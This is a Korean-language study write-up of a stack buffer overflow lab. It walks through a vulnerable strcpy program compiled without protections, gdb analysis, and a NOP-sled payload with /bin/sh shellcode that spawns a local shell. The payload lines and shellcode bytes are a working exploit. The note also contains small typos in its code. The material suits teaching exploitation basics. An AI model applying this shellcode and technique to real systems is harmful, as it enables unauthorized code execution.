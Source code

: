 # Buffer Overflow란?

**Buffer Overflow**는 C언어나 C++에서 버퍼에 데이터를 입력 받을 때 **입력 값의 크기를 검증하지 않아** 
버퍼가 흘러 넘쳐 다른 변수나 메모리를 덮어 씌우게 되는 버그이다.   
이 취약점을 이용해 **Return address**를 원하는 주소로 덮어 씌워 **IP(Instruction Pointer)를 제어**할 수 있게 된다.   
Buffer Overflow에는 **Stack Overflow**와 **Heap Overflow**가 있다.

## 실습
``` C
# include <stdio.h>
# inslucd <string.h>

int main(int argc, char *argv[])
{
    char buf[256];
    
    strcpy(buf, argv[1]);
    printf("%s\n", buf);
}
```
**strcpy 함수**로 argv[1]을 buf로 복사하고 printf로 출력한다.   
여기서 취약점은 **strcpy** 함수에서 발생한다.   
strcpy 함수는 null byte(문자열의 끝)를 만날 때까지 문자열을 복사하는 함수이다. 즉, 복사하는 버퍼의 크기를 검증하지 않는 취약한 함수이다.   
그래서 buf의 크기인 256byte를 훨씬 넘는 데이터도 buf에 복사할 수 있게 된다.

```
oojin@ubuntu:~/Study/System/BOF$ gcc -m32 -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack -no-pie -o bugfile1 bugfile1.c
yoojin@ubuntu:~/Study/System/BOF$ ls
bugfile1  bugfile1.c
yoojin@ubuntu:~/Study/System/BOF$ ./bugfile1 AAAA
AAAA
```
32bit로 컴파일 시켰다. AAAA를 입력하면 AAAA가 출력되는 그런 형식이다.

```
yoojin@ubuntu:~/Study/System/BOF$ gdb -q bugfile1
Reading symbols from bugfile1...(no debugging symbols found)...done.
(gdb) disas main
Dump of assembler code for function main:
   0x0804843b <+0>:	push   ebp
   0x0804843c <+1>:	mov    ebp,esp
   0x0804843e <+3>:	sub    esp,0x100 //0x100은 10진수로 256
   0x08048444 <+9>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048447 <+12>:	add    eax,0x4
   0x0804844a <+15>:	mov    eax,DWORD PTR [eax]
   0x0804844c <+17>:	push   eax
   0x0804844d <+18>:	lea    eax,[ebp-0x100]
   0x08048453 <+24>:	push   eax
   0x08048454 <+25>:	call   0x8048300 <strcpy@plt>
   0x08048459 <+30>:	add    esp,0x8
   0x0804845c <+33>:	lea    eax,[ebp-0x100]
   0x08048462 <+39>:	push   eax
   0x08048463 <+40>:	call   0x8048310 <puts@plt>
   0x08048468 <+45>:	add    esp,0x4
   0x0804846b <+48>:	mov    eax,0x0
   0x08048470 <+53>:	leave  
   0x08048471 <+54>:	ret    
End of assembler dump.
```

gdb로 bugfile1을 분석해 보았다. main함수를 disassemble하면 위와 같다.
main+3에서 stack을 0x100만큼 확장하였다.(변수 할당)   

RET(4)   
SFP(4)   
buf(256)   

buf가 256byte, SFP가 4byte 그리고 RET(Return address)이니 260 byte를 넘게 입력하면 RET가 덮일 것이다.   
./bugfile1 $(python -c 'print("A" * 264)')를 입력하였을 때, Return address가 덮여서 segmantation fautl가 났다.   
이때 EIP는 0x41414141로 덮인 상태이다.   
이제 쉘 코드를 메모리 어딘가에 넣어서 공격을 하면 된다.   
bugfile1은 argv[1]을 buf로 복사하니, agrv[1]에 넣고 Return address를 buf의 주소로 덮어씌우면 된다.   
buf의 주소를 찾아보겠다. main+33 지점이 strcpy 함수가 끝나는 시점이니 이곳에 break를 걸고 디버깅 해 보았다.

```
(gdb) b* main+33
Breakpoint 1 at 0x804845c
(gdb) r $(python -c 'print("A"*264)')
Starting program: /home/yoojin/Study/System/BOF/bugfile1 $(python -c 'print("A"*264)')

Breakpoint 1, 0x0804845c in main ()
(gdb) x/70wx $esp
0xffffce38:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffce48:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffce58:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffce68:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffce78:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffce88:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffce98:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcea8:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffceb8:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcec8:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffced8:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcee8:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcef8:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf08:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf18:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf28:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf38:	0x41414141	0x41414141	0x00000000	0xffffcfd4
0xffffcf48:	0xffffcfe0	0x00000000
```

스택에 argv[1]에 입력한 A 264개가 들어 있다.
buf의 주소는 **0xffffce38** 이다.

이제 argv[1]에 쉘코드를 넣고 RET 전까지 채운 후, buf 주소를 넣으면 된다.
하지만 buf의 주소가 정확하지 않을 수도 있기 때문에 **NOP Slide** 또는 ** NOP Sled** 라는 기법을 사용하면 성공 확률을 높일 수 있다.

쉘 코드는 /bin/sh를 실행시키는 25byte 코드를 사용하였다.
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

**NOP(100)+SELLCODE(25)+NOP(131)+SFP(4)+RET(4)**
이렇게 하면 된다.

```
yoojin@ubuntu:~/Study/System/BOF$ ./bugfile1 $(python -c 'print("\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"+"\x90"*135+"\x38\xce\xff\xff")')
����������������������������������������������������������������������������������������������������1�Ph//shh/bin��P��S���
                                          ���������������������������������������������������������������������������������������������������������������������������������������8���
Segmentation fault (core dumped)
```

공격이 실패했다. 이유는 gdb에서 분석시에 buf의 주소와 실제 시행 시에 buf의 주소가 차이가 나기 떄문이다.
bugfile1의 소스 코드를 조금 수정하여 실제  buf 주소가 무엇인지 확인 해 보았다.

``` C
# include <stdio.h>
# inslucd <string.h>

int main(int argc, char *argv[])
{
    char buf[256];
    
    strcpy(buf, argv[1]);
    printf("%s\n", buf);
    printf("%p\n", buf);
}
```

printf 함수로 buf의 주소를 출력해보았다.

```
yoojin@ubuntu:~/Study/System/BOF$ ./bugfile1 $(python -c 'print("\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"+"\x90"*135+"\x38\xce\xff\xff")')
����������������������������������������������������������������������������������������������������1�Ph//shh/bin��P��S���
                                          ���������������������������������������������������������������������������������������������������������������������������������������x���
0xffffce78
```

실제 buf의 주소는 **0xffffce78**이었다.

```
yoojin@ubuntu:~/Study/System/BOF$ ./bugfile1 $(python -c 'print("\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"+"\x90"*135+"\x78\xce\xff\xff")')
����������������������������������������������������������������������������������������������������1�Ph//shh/bin��P��S���
                                          ���������������������������������������������������������������������������������������������������������������������������������������x���
0xffffce78
$ id
uid=1000(yoojin) gid=1000(yoojin) groups=1000(yoojin),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```

실제 주소인 **0xffffce78**로 다시 exploit을 시도해보았더니 성공하였다.
